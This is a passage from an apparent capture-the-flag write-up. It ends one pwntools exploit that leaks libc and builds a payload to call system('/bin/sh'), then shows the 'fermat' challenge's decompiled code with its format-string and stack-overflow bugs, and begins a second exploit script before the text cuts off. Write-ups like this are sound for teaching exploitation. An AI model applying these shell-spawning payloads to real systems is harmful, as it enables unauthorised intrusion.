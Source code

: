 ```python
leak = int(r.recvuntil(b'\n', True), 16)

base = leak - 0x60770
dbg('base')
system = base + 0x50d60
rdi = base + 0x001bc021

bss = base + 0x219000
gadget = base +  0x00166b4a#: mov rax, [rsp+0x48]; mov rdi, [rax]; mov rax, [rdi+0x38]; call qword ptr [rax+0x18];

where = bss

r.sendlineafter(b'> ', f'{where:x}'.encode())

payload = b''
payload += flat(bss+0x40, 0x11, 0x22, 0x33, 0x44, 0x55, 0x66, bss, u64(b'/bin/sh\x00'), 0x88, 0x99, system+0x1b, 0x202, 0x303, 0x404, bss+0x40, 0x606, 0x707, 0x808)
payload = payload.ljust(0x98, b'1')
payload += p64(gadget)
payload = payload.ljust(0x300, b'2')
r.sendline(payload)

r.interactive()
r.close()
```

# fermat

Very simple program, has fsb and stack overflow.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  read(0, buf, 0x128uLL);
  if ( strchr(buf, 110) )
    __assert_fail("strstr(buf, \"n\") == NULL", "vuln.c", 0xEu, "main");
  printf(buf);
  return 0;
}
```

Since the input is called with `read`, we can return to `main` by partially rewriting the return address. So we leak the libc address once and build ROP.

```python
from pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'fermat.chal.imaginaryctf.org'
PORT =  1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
```